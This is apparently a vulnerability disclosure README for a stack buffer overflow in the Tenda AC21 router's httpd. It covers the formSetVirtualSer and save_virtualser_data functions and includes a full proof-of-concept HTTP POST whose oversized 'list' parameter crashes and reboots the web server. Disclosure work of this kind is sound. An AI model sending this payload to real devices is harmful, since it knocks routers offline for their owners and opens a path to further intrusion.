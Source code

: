 # Tenda AC21(V16.03.08.15) contains Stack Buffer Overflow Vulnerability

## overview

- Manufacturer's website information：https://www.tenda.com.cn/
- Firmware download address: https://www.tenda.com.cn/download/detail-3419.html

## product information

Tenda A21(V16.03.08.15), latest version of simulation overview：

![image-20220902192028747](readme.assets/image-20220902192028747.png)

## description

### 1. Vulnerability Details

Tenda AC21(V16.03.08.15) contains a stack overflow vulnerability in file `/bin/httpd`, function`formSetVirtualSer`

Attackers can cause this vulnerability via parameter `list`

In function `formSetVirtualSer`, it calls `save_virtualser_data` and vulnerability is in this function. 

![image-20220902214752440](readme.assets/image-20220902214752440.png)

In function `save_virtualser_data` , it calls `sscanf` to read strings in `v9`(a2) to parameter on the stack without checking its length , so there is a buffer overflow vulnerability. 

![image-20220902232253583](readme.assets/image-20220902232253583.png)																																															

### 2. Recurring loopholes and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/SetVirtualServerCfg HTTP/1.1
Host: 192.168.0.1
Content-Length: 160
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/system_time.html?random=0.278922737111333&
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: password=25d55ad283aa400af464c76d713c07adfmbcvb
Connection: close

list=11111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
```

By sending this poc, we can make`httpd` reboot 

![image-20220902214733950](readme.assets/image-20220902214733950.png)